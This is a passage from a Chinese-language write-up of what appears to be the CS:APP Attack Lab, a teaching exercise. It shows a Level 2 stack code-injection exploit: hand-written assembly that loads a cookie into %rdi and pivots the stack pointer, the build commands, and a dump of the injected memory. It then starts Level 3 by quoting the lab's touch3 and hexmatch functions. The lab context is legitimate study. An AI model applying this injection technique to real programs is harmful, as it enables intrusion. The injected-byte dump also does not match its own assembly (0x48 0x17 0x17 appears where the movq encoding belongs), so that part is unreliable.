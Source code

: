 0. 修改内存`0x5561dc78`处的值为`0x4017ec`
1. 修改返回地址执行我们注入的指令执行的地址(`0x5561dc90`)
2. 修改`%rdi`的值为cookie对应的值
3. 修改`%rsp`指向`0x5561dc78`
4. 返回

对应的汇编语句为
```s
# code2.s
movq  $0x59b997fa, %rdi       
movq  $0x5561dc78, %rsp 
retq
```

使用指令编译并进行反编译

```bash
gcc -c code2.s
objdump -d code2.o > code2.asm
```

在`code2.asm`中即可看到对应的汇编指令。将得到的二进制指令写入到代码注入的内存栈中即可。注入后内存内容如下：

```bash
0x5561dc78:     0xec    0x17    0x40    0x00    0x00    0x00    0x00    0x00
0x5561dc80:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc88:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc90:     0x48    0x17    0x17    0xfa    0x97    0xb9    0x59    0x48
0x5561dc98:     0xc7    0xc4    0x78    0xdc    0x61    0x55    0xc3    0x00
0x5561dca0:     0x90    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
```

## Level 3

先梳理一下这个步骤实现的思路：

第一步，逻辑上需要跳转到touch3函数中

```c
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

可以发现，`touch3()`函数需要传入一个字符串指针，并和cookie一起作为参数调用`hexmatch()`函数。因此我们再探究一下这个函数的内容：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```
